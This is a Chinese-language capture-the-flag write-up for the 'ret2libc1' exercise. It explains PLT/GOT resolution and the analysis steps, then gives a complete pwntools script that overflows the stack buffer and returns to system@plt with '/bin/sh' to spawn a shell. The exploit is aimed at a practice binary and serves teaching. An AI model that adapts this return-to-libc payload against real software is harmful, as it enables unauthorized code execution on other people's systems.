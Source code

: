 # ret2libc1



#### 先讲几个知识点：

1. system函数属于libc，并且libc.so动态链接库中的函数之间相对偏移是固定的，即使打开ASLR也是如此。
2. PLT(Procedure Linkage Table)表中的数据不是函数的真实地址，带有@plt的函数起个过渡作用。
3. GOT(Global Offset Table)表中的数据才是函数最终的地址，plt表中的数据是got表的地址，可以通过plt表跳转到got表来得到函数的真正地址。
4. 地址随机化没有对PLT表和GOT表起作用。



首先file和checksec一下![1](1.png)

ida查看，没有后门函数，nx打开，且是动态链接程序

![2](2.png)

虽然说没有后门函数，但是调用了system函数：

![3](3.png)

并且有/bin/sh字符串：

![4](4.png)

gdb调试，ebp:0xffffd128

![5](5.png)

所以exp可以这样：

```python
from pwn import *
io = process("./ret2libc1")
elf = ELF("./ret2libc1")
system_plt = elf.plt["system"]
bin_sh = next(elf.search(b"/bin/sh"))
payload = b'A'*112 + p32(system_plt)+b'aaaa' + p32(bin_sh)
io.sendline(payload)
io.interactive()
```

![6](6.png)